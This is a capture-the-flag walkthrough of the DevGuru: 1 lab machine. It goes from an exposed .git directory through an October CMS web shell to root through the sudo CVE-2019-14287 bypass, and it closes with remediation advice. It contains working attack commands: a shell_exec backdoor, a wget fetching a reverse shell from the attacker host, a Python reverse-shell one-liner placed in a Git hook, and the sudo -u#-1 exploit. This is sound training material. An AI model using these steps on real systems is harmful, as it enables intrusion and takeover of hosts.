





# DevGuru: 1 — Writeup

| Field | Value |
|---|---|
| **Target IP** | 192.168.1.32 |
| **Difficulty** | Hard |
| **OS** | Linux |
| **Goal** | root flag (`root.txt`) |
| **Source** | [HackingArticles](https://www.hackingarticles.in/devguru-1-vulnhub-walkthrough/) |

## Attack Summary

DevGuru exposes a Git repository via HTTP that leaks database credentials. Those credentials unlock an October CMS admin panel, where PHP code execution leads to a reverse shell. A backup file reveals Gitea credentials, and a Git hook is abused to pivot laterally. A CVE-2019-14287 sudo bypass (sqlite3 with `-u#-1`) then grants root.

## Methodology

1. Reconnaissance — Nmap, virtual host setup
2. Git repository dump and source code analysis
3. October CMS admin login via database hash replacement
4. RCE through CMS page snippets and reverse shell
5. Gitea credential discovery from backup file
6. Pre-receive Git hook abuse for second shell
7. Privilege escalation via sudo CVE-2019-14287

---

## Step 1: Reconnaissance

```bash
nmap -p- -A $TARGET
```



Three ports are open: **22** (SSH), **80** (Apache + October CMS), and **8585** (Gitea).

Add the hostname to `/etc/hosts`:

```
192.168.1.32 devguru.local
```

Browsing port 80 shows an October CMS site. The URL `http://devguru.local/.git/` is accessible — the entire Git repository is exposed.

---

## Step 2: Git Repository Dump

Use [GitTools](https://github.com/internetwache/GitTools) to dump and reconstruct the repository:

```bash
./gitdumper.sh http://devguru.local/.git/ /tmp/devguru-dump
./extractor.sh /tmp/devguru-dump /tmp/devguru-src
```



Key file recovered: `config/database.php`

```
DB_USERNAME=october
DB_PASSWORD=SQ66EBYx4GT3byXH
DB_DATABASE=octoberdb
```

Also recovered: `admin.php` — the Adminer database panel path.

---

## Step 3: October CMS Admin Access

Log into MySQL via Adminer at `http://devguru.local/adminer.php`:

- **Server:** localhost
- **User:** october
- **Password:** SQ66EBYx4GT3byXH
- **Database:** octoberdb

In the `backend_users` table, locate the row for user **frank** and replace the bcrypt hash with a new one for a known password:

```bash
# Generate bcrypt hash for "rajchandel"
htpasswd -nbB fake rajchandel | cut -d: -f2
```



Now log in at `http://devguru.local/backend` as `frank` / `rajchandel`.

---

## Step 4: RCE via October CMS Page Snippet

Navigate to **CMS > Pages**, create a new page, and add the following PHP snippet:

```php
function onStart() {
    $this->page["myVar"] = shell_exec($_GET['cmd']);
}
```

In the page Twig template, add:

```twig
{{ page.this.myVar }}
```

Save and preview the page. Test execution:

```
http://devguru.local/?cmd=id
```



Download a PHP reverse shell to the target:

```bash
# Attacker: serve the shell
python3 -m http.server 8000

# Via cmd parameter on the CMS page:
http://devguru.local/?cmd=wget http://$LHOST:8000/shell.php -O /tmp/shell.php
```

Start a listener and trigger the shell:

```bash
nc -lvnp $LPORT
http://devguru.local/?cmd=php /tmp/shell.php
```

You land as **www-data**.

---

## Step 5: Gitea Credential Discovery

Search for backup files:

```bash
cat /var/backup/app.ini.bak
```

This reveals Gitea database credentials:

```
DB_USER = gitea
DB_PASSWD = UfFPTF8C8jjxVF2m
```

Log into MySQL as the gitea user and replace frank's password hash in the `user` table:

```bash
mysql -u gitea -pUfFPTF8C8jjxVF2m
USE gitea;
UPDATE user SET passwd = '<bcrypt_of_rajchandel>' WHERE name = 'frank';
```

---

## Step 6: Git Hook Abuse (Lateral Movement to frank)

Log into Gitea at `http://devguru.local:8585` as `frank` / `rajchandel`.

Navigate to the `devguru-website` repository and go to **Settings > Git Hooks > pre-receive**. Add a Python reverse shell:

```python
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("$LHOST",$LPORT));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])'
```

Start a listener. Then edit `README.md` through the Gitea web UI and commit. The pre-receive hook fires and returns a shell as **frank**.

```bash
cat /home/frank/user.txt
```

---

## Step 7: Privilege Escalation — CVE-2019-14287 (sudo -u#-1)

```bash
sudo -l
```

Output shows:

```
(ALL, !root) NOPASSWD: /usr/bin/sqlite3
```

The sudo version is older than 1.8.28 — CVE-2019-14287 applies. The sudo policy `!root` can be bypassed by specifying UID `-1`, which maps to root (UID 0):

```bash
sudo -u#-1 sqlite3 /dev/null '.shell /bin/bash'
```



```bash
cat /root/root.txt
```

---

## Lessons Learned

- Exposed `.git/` directories leak full source code including credentials.
- CMS admin panels with PHP snippet support provide direct RCE.
- Backup files stored outside the web root still expose credentials if the server user can read them.
- Git server hook abuse is an underrated lateral movement vector.
- CVE-2019-14287 bypasses `!root` sudo policies on unpatched sudo.

---

## Remediation

| Vulnerability | Fix |
|---|---|
| Exposed `.git/` directory | Block access to `/.git/` in web server config (`Deny from all`) |
| Hardcoded DB credentials in source | Use environment variables and secrets managers |
| CMS allows PHP execution in templates | Restrict snippet permissions; sandbox PHP execution |
| World-readable backup files | Store backups outside the web/app directory with restricted permissions |
| CVE-2019-14287 (sudo < 1.8.28) | Upgrade sudo to 1.8.28 or later |
| Git hook execution on push | Audit server-side hooks; restrict Gitea admin access |
